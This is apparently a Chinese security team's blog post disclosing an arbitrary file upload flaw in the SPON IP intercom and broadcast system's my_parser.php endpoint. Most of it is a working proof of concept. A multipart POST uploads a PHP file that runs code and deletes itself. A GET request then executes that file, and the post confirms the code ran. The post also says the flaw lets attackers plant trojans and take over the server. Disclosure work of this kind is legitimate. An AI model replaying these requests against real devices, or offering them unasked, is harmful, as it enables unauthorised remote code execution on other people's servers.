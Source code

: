 #  世邦通信SPON IP网络对讲广播系统my_parser.php 接口处存在文件上传漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-06 23:59  
  
# 1. 漏洞描述  
  
    世邦通信 SPON IP网络对讲广播系统 my_parser.php 存在任意文件上传漏洞，攻击者可以通过漏洞上传任意文件甚至木马文件，从而获取服务器权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKxTgCiaZEJiaWHMfNJhpLoe2u9P5j9E9OibjmMATibfCyq3ZIqVu4BDBBIA/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /upload/my_parser.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.71 Safari/537.36
Content-Length: 277
Content-Type: multipart/form-data; boundary=0300a03a9419748c18d96a7e6e03d7be6f7f3f1ef6df950f196738fe8230
Accept-Encoding: gzip, deflate, br
Connection: close

--0300a03a9419748c18d96a7e6e03d7be6f7f3f1ef6df950f196738fe8230
Content-Disposition: form-data; name="upload"; filename="test.php"
Content-Type: application/octet-stream

<?php echo md5(1);unlink(__FILE__);?>
--0300a03a9419748c18d96a7e6e03d7be6f7f3f1ef6df950f196738fe8230--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKGKZtJNr4peKGzZ3qjgmaVspl3c5GYFeCON1ODKWAs1tbibSokZ1Fjag/640?wx_fmt=png&from=appmsg "")  
```
```  
```
GET /upload/files/test.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.71 Safari/537.36
Accept-Encoding: gzip, deflate, br
Connection: close


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWkicQxOPON5a5MyqeLDa2OKcXN2mSp5I7CYdFby8MJp36vBmHQMNEu8csicEVDkEiaEM3P9siajfIobw/640?wx_fmt=png&from=appmsg "")  
  
成功执行md5(1)，并输出返回信息。  
  
  
